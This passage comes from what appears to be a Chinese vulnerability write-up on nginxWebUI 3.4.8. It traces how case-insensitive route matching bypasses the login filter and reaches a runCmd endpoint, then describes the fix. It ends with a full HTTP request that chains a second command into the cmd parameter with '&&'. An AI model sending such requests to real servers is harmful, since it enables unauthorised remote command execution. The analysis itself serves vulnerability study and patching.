 **05**  
  
**调试分析**  
  
```
java -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=5005  -jar -Dfile.encoding=UTF-8 D:/home/nginxWebUI/nginxWebUI-3.4.8.jar --server.port=8080 --project.home=D:/home/nginxWebUI/
```  
  
  
com.cym.config.AppFilter#doFilter  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYARU7sxYVLmaYQfG0yVgb0SVVjfkEEutJ9u39uETFic2xITJLsL4pE4A/640?wx_fmt=png "")  
  
  
传入的路由与设置的匹配条件均不满足，继续进行匹配  
  
  
org.noear.solon.core.route.RoutingTableDefault#matchOne  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYnSKa7o7diaynUeO6zMDfZfic8UreaPW7JVOaKZ3tsRicULxib4MiafaE2EA/640?wx_fmt=png "")  
  
‍  
  
在 solon 中将传入的路径与系统中路径依次进行匹配比较，因为大小写的不敏感，所以会匹配成功  
  
‍  
  
com.cym.controller.adminPage.ConfController#runCmd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYtjbibYiaQ8u3HiaOoz8bhKvDq7YGOhD6ZC1a3WicljsFzIITWxLaqlkVWg/640?wx_fmt=png "")  
  
  
当到达函数 runCmd 时 cmd 参数可控，进行了一部分校验和过滤 只有cmd 中存在字符串 nginx 才可以继续执行，利用 && 来实现命令的拼接  
  
  
cn.hutool.core.util.RuntimeUtil#exec(String...)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYu5e0tiaibxX6bRsWaNOgeC3NWjZGWiakHDwIcxK8cq0j1wGRnNdt2Otxg/640?wx_fmt=png "")  
  
‍  
  
**06**  
  
**漏洞修复**  
  
  
我们看到对漏洞针对性的修复操作是，将路由全部转换为小写再进行匹配校验  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYJjic379EaRhiaGk5aicoorWSWrWhRQ6PRPxHBGCnSX25mLicapdwdmMvtQ/640?wx_fmt=png "")  
  
  
感觉没有官方提供的修复方式更简便些  
  
  
结合目前未授权的情况，以及之前分析到的后台 RCE ，在这里做一个汇总，并进行一个比较简单的分析  
  
  
**「命令执行一」**  
  
****  
```
GET /AdminPage/conf/runCmd?cmd=calc%26%26nginx HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```
